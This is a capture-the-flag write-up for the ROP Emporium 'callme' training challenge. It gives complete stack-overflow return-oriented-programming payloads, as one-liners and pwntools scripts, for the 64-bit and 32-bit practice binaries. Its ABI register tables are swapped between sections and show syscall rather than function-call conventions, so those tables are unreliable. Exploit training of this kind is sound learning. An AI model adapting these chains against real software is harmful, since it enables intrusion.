


# Callme
[CAllme]: https://ropemporium.com/challenge/callme.html

- We must call 3 functions in the order: `callme_one`, `callme_two`, `callme_three`

- Every function want 3 parameters in the specified order, so we must remember `ABI` for 64 and 32 bit:

  - **32bit**: callme_X(`0xdeadbeef`, `0xcafebabe`, `0xd00df00d`) --> but we will see that the functions will take parameters directly from the stack

| rax     | rdi  | rsi  | rdx  | r10  | r8   | r9   |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |

  - **64bit**: callme_X(`0xdeadbeefdeadbeef`, `0xcafebabecafebabe`, `0xd00df00dd00df00d`) 

| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
| ------- | ---- | ---- | ---- | ---- | ---- | ---- |
| eax     | ebx  | ecx  | edx  | esi  | edi  | ebp  |

## 64 bit

We need the following things to came up with our ROP:

- 40 thrash character as in previous 64 bits challenges

- `callme_x()` addresses --> **callme_one** `0x00400720`, **callme_two** `0x00400740`, **callme_three** `0x004006f0`


- `pop rdi; pop rsi; pop rdx; ret;` gadget --> `0x000000000040093c`



Our ROP is:  `40_bytes_of_padding + gadget + param1 + param2 + param3 + callme_1 +  gadget + param1 + param2 + param3 + callme_2 + gadget +  param1 + param2 + param3 + callme_3`

So remembering little endianess:

```python
python -c 'print "\x55"*40 + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x20\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\x40\x07\x40\x00\x00\x00\x00\x00" + "\x3c\x09\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0" + "\xf0\x06\x40\x00\x00\x00\x00\x00"' | ./callme
```

### pwntools

```python
from pwn import *

context.binary = elf = ELF("callme")
io = process(elf.path)

payload = b'A'*40 
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x00400720) # callme1
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x00400740) # callme2
payload += p64(0x000000000040093c) # pop rdi; pop rsi; pop rdx; ret; 
payload += p64(0xdeadbeefdeadbeef) # param 1
payload += p64(0xcafebabecafebabe) # param 2
payload += p64(0xd00df00dd00df00d) # param 3
payload += p64(0x004006f0) # callme3

io.sendline(payload)
print(io.recvall())
```

## 32 bit

We need the following things to came up with our ROP:

- 44 thrash bytes as in previous 32 bits challenges, and 4 thrash bytes after every call

- `callme_x()` addresses --> **callme_one** `0x080484f0`, **callme_two** `0x08048550`, **callme_three** `0x080484e0`

 

- As last thing we have the following issue: **callme_x()** functions reads **parameters direclty in the stack** (disassemble it and check it), so they wont pop them out from there, in this cas, after completing `callme_one` call, the flow wont go on `callme_2` because all parameter still in the stack

  -  Wrong ROP:  `44_bytes_of_padding + callme_1 + 4_bytes_fake_ebp(ret_address) + param1 + param2 + param3 + callme_2 ...` 

  - So we need a gadget that POP out our parameters `0x080487f9`

  

Our ROP is:  `44_bytes_of_padding + callme_1 + gadget + param1 + param2 + param3 + callme_2 + gadget  + param1 + param2 + param3 + callme_3 + gadget  + param1 + param2 + param3 `

So remembering little endianess:

```python
python -c 'print "\x55"*44 + "\xf0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\x50\x85\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" + "\xe0\x84\x04\x08" + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0"' | ./callme32
```

### pwntools

```python
from pwn import *

context.binary = elf = ELF("callme32")
io = process(elf.path)

param1 = 0xdeadbeef
param2 = 0xcafebabe
param3 = 0xd00df00d

pop_pop_pop = 0x080487f9 

payload = b'A'*44 # padding

payload += p32(elf.symbols.callme_one) # callme_one()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

payload += p32(elf.symbols.callme_two) # callme_two()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

payload += p32(elf.symbols.callme_three) # callme_three()
payload += p32(pop_pop_pop)
payload += p32(param1)
payload += p32(param2)
payload += p32(param3)

io.sendline(payload)
print(io.recvall())
```

